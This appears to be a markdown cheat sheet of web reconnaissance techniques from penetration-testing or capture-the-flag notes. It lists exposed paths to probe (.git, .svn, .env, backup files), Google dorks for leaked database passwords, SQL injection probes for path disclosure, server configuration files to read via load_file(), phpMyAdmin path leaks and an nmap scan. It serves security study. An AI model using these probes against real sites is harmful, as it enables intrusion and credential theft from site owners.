 # Information leak  
* [Enumeration](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)

### Allow/disallow file  
```
/robots.txt
```  

### Get source code
```
/.git  
git reflog
git reset --hard comm-num

/.svn

// backup file
index.php~
.index.php.swp

// asis ctf
index.php/index.php
```

### APP__* , DB__* ....
```
/.env
// google hacking
"DB_PASSWORD" filetype:env site:www.xxx.xx
```  

### Get absolute path
```php
// sql inj error, system return error message
?id=1'
?id=-1

select @@datadir;

// Google hacking
site:

// some developers like to put phpinfo() in the test file
test.php
info.php
phpinfo.php
1.php

// load_file() to read content
// Windows
C:\windows\php.ini
C:\windows\system32\inetsrv\MetaBase.xml

// Linux
/etc/php.ini
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf

// phpmyadmin
/phpMyAdmin/libraries/select_lang_lib.php
/xxx/darkblue_orange/layout.inc.php
/xxx/index.php?lang[]=1

// Nginx with file parsing vulnerability
www.example.com/test.jpg/index.php  // jpg might be parsed as php and leak to physical path
```  

### Scan opening port  
* nmap  
```php
nmap -sS -p -v ip   // map all the port
```  

### Laravel 4.2 information leak  
Laravel 4.2 doesn't set a page for error message.  
```php
// Google hacking
"Whoops! There was an error."
```

### search engine  
[https://www.shodan.io](https://www.shodan.io)  
[https://www.zoomeye.org/](https://www.zoomeye.org/)  
